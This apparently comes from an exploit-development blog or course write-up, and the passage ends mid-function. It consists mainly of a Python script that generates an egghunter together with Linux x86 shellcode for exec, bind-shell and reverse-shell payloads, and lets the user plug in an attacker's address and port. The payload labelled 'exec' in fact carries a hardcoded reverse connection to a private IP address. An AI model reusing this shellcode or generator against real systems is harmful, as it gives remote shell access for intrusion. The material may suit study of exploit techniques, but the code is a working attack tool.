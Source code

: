 
#### Configurable for different payloads

I made a simple script that it generate an egghunter shellcode with different payloads like exec, bind and reverse:

```python
#!/usr/bin/env python

import sys
import struct
import os
import binascii
import socket
from optparse import OptionParser, OptionGroup

shellcode_l = {
	'exec':"\x31\xc0\x31\xdb\x50\x6a\x01\x6a\x02\x89\xe1\xb3\x01\xb0\x66\xcd\x80\x89\xc6\x31\xc9\x68\xc0\xa8\x01\x40\x66\x68\x11\x5c\x66\x6a\x02\x89\xe1\x6a\x10\x51\x56\x89\xe1\xb0\x66\xb3\x03\xcd\x80\x89\xf3\x31\xc9\xb0\x3f\xcd\x80\x41\x83\xf9\x02\x7e\xf6\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80",
	'reverse':"\x31\xc0\x31\xdb\x50\x6a\x01\x6a\x02\x89\xe1\xb3\x01\xb0\x66\xcd\x80\x89\xc6\x31\xc9\x68ADDRESS\x66\x68PORT\x66\x6a\x02\x89\xe1\x6a\x10\x51\x56\x89\xe1\xb0\x66\xb3\x03\xcd\x80\x89\xf3\x31\xc9\xb0\x3f\xcd\x80\x41\x83\xf9\x02\x7e\xf6\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80",
	'bind':"\x31\xc0\x31\xdb\x50\x6a\x01\x6a\x02\x89\xe1\xb3\x01\xb0\x66\xcd\x80\x89\xc6\x31\xc0\x31\xc9\x50\x66\x68PORT\x66\x6a\x02\x89\xe1\x6a\x10\x51\x56\x89\xe1\xb0\x66\xb3\x02\xcd\x80\x31\xc0\x50\x56\x89\xe1\xb3\x04\xb0\x66\xcd\x80\x31\xc0\x50\x50\x56\x89\xe1\xb3\x05\xb0\x66\xcd\x80\x89\xc3\x31\xc9\xb0\x3f\xcd\x80\x41\x83\xf9\x02\x7e\xf6\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"
}

def eggHunter(egg):
	egghunter = "\\x66\\x81\\xc9\\xff\\x0f\\x41\\x6a\\x43\\x58\\xcd\\x80\\x3c\\xf2\\x74\\xf1\\xb8%s\\x89\\xcf\\xaf\\x75\\xec\\xaf\\x75\\xe9\\xff\\xe7"%getEgg(egg)
	return egghunter

def port2hex(port):
	return struct.pack(">H", port)


def address2hex(address):
	addr = binascii.hexlify(socket.inet_aton(address))
	return binascii.unhexlify("".join([addr[i:i+2] for i in range(0, len(addr), 2)]))
	

def getEgg(eggi):
        egg = ""
        for c in range(0, 8, 2):
                egg += "\\x%s%s" % (eggi[c], eggi[c+1])
	return egg

def nullBytes(cad):
        check = [cad.encode('hex')[i:i+2] for i in range(0, len(cad.encode('hex')), 2)]
        for i in check:
                if (i == "00"):
                        print "[-] The payload contains null bytes :("


def reversePayload(egg, address, port):
	port = port2hex(int(port))
	nullBytes(port)
	address = address2hex(address)
	nullBytes(address)
	shellcode = shellcode_l["reverse"]
```